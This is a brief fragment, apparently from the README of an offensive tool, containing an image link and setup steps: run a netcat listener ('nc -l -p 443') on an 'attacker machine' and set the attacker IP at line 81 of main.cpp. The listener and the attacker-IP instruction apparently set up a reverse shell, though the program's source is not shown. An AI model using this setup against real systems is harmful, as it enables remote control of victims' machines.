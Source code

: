 On the attacker machine: nc -l -p 443
You can change the IP to the attacker IP in line 81 in main.cpp.